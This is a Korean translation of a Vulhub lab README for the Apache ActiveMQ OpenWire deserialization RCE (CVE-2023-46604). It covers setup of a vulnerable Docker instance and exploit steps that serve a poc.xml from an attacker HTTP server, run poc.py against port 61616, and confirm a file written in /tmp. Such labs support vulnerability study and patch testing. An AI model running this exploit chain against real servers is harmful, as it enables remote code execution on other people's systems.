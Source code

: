 # Apache ActiveMQ OpenWire 프로토콜 병렬화 RCE (CVE-2023-46604)

[원문(English version)](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/README.md)

Apache ActiveMQ는 미국 Pachitea(Apache) 소프트웨어 재단에서 개발한 오픈 소스 메시징 미들웨어로 자바 메시징 서비스, 클러스터링, 스프링 프레임워크 등을 지원합니다.

OpenWire 프로토콜은 ActiveMQ에서 여러 다른 언어 및 플랫폼에서 ActiveMQ에 대한 네이티브 액세스를 허용하도록 설계되었습니다. Apache ActiveMQ 5.18.2 이전 버전은 역직렬화 취약성의 영향을 받았습니다. 이 취약성은 네트워크 액세스 권한을 가진 원격 공격자가 OpenWire 프로토콜의 직렬화된 클래스 유형을 조작하여 임의의 셸 명령을 실행하여 에이전트의 클래스 경로에 있는 모든 클래스를 인스턴스화할 수 있도록 할 수 있습니다.

참고 문헌:

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## 환경 설정

ActiveMQ는 다음 2개의 포트를 수신합니다:

| 기본 포트     | 기본 조건                             |
|--------------|--------------------------------------|
| 8161 (web)   | 원격 액세스에는 구성이 필요함           |
| 61616 (tcp)  | 원격 액세스 허용                       |

포트 61616에 병렬화 문제가 있습니다.

ActiveMQ 5.17.3 서버를 실행하려면 다음 명령을 입력합니다:

```
docker compose up -d
```

61616번 포트만 사용하면 되지만 악용 전에 서비스가 성공적으로 시작되었는지 확인하려면 `http://your-ip:8161`에 접속하십시오.

## Exploit

Python3 http.server 모듈을 사용하여 [poc.xml](poc.xml) 파일이 있는 폴더에서 HTTP 서버를 빠르게 시작할 수 있습니다:

```shell
python3 -m http.server 6666
```

Then execute the [poc.py](poc.py):

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

다음 명령을 사용하여 ActiveMQ 컨테이너 내부를 확인할 수 있습니다:

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

touch /tmp/activeMQ-RCE-success가 성공적으로 실행되었음을 보여 줍니다.

![01.png](01.png)